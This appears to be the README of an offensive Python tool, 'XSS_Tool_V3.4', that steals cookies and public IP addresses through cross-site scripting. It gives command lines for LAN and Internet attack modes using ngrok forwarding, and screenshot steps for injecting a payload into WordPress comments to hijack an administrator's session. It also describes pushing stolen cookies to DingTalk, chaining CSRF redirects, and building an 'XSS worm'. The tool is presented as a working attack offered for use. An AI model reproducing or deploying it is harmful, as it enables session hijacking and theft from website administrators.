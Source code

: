 # XSS steals cookies
* The current version V3.4 updates the remote push of nails, so that you can receive victim information in real time on Android without having to face the host
* Update the redirection function, you can use CSRF to create XSS worm attacks
* Python version 3.6 or above
* Obtain the victim's public IP address and cookie
* Compatible with Windows or Linux
## usage method
  * View help information

      ```#python3 XSS_Tool_V3.4.py -h```

  ![图片名称](./Demo_image/Help2.png "Help")  

  * LAN attack

      ```#python3 XSS_Tool_V3.4.py -lp (Local port)```

  * Internet attack

      ```#python3 XSS_Tool_V3.4.py -t -lp (Local port) -rh (Remote host IP) -rp (Remote host port)```

## Effect demonstration 
 * We will use WordPress-6.1.1 for XSS attack simulation test
 * _If your machine has a public IP address, just listen to the local port_

# Use Extranet attack
* Enable port forwarding (Ngrok is used for demonstration)

    ![图片名称](./Demo_image/forwarding.png "Port forwarding")  


* Use Extranet attack

    ```#python3 XSS_Tool_V3.4.py -t -rh http://xxx.xxx.xxx -rp 10029```

    ![图片名称](./Demo_image/Internet1.png "Extranetattack")  


# Use Intranet attack [Do not push messages Test]
-----------------Hacker--------------------------
* You can use the - lp parameter to specify the port. If you do not write, the default port is 8888

```#python3 XSS_Tool_V3.4.py```

![图片名称](./Demo_image/Runing2.png "Run")  

* Copy payload and inject XXS injection point

![图片名称](./Demo_image/Hacking.png "Run")  

----------------Server Admin------------------------

* Normal status of administrator

![图片名称](./Demo_image/Admin_no_hack.png "Admin_no_hack")  

* The administrator was hacked to execute malicious code when viewing comments

![图片名称](./Demo_image/Admin_hacked2.png "Admin_hacked2")  

-----------------Hacker--------------------------
* Hacker gets the administrator's cookie

![图片名称](./Demo_image/Hack_Get_Cookie3.png "Hack_Get_Cookie")

# Use Intranet attack[Message push]
* @1.Use the parameter options - dt and - dk for push settings

```#python3 XSS_Tool_V3.4.py -dt xxxxx... -dk xxx```

![图片名称](./Demo_image/HackDT.png "Run")  

* @2.Or directly use the parameter dcf, provided that you have configured the parameters in the DingTalk.conf file


1.You must modify the parameters in the DingTalk.conf file to use the - dcf option

![图片名称](./Demo_image/DingTalk_Config.png "Run")  

2.The - dcf option can be used after configuration

```#python3 XSS_Tool_V3.4.py -dcf```

![图片名称](./Demo_image/Config_OK.png "Run")  

* Copy payload and inject XXS injection point



----------Injection is the same as the above demonstration steps---------------

* After the administrator cookie is obtained, it will be automatically pushed to the DingTalk platform

![图片名称](./Demo_image/PUSH.png "Run")  

* Android perspective

![图片名称](./Demo_image/Android.jpg "Run")  

# Use Intranet attack [XSS And CSRF Test]

* CSRF shooting range

![图片名称](./Demo_image/Login_Pikachu.png "Run")  

* Select the parameter - rd to redirect

![图片名称](./Demo_image/CSRF_XSS.png "Run")  

* The administrator accesses and executes malicious code and is redirected

![图片名称](./Demo_image/CSRF_Hacked.png "Run")  

##^^^You can create an XSS worm for network propagation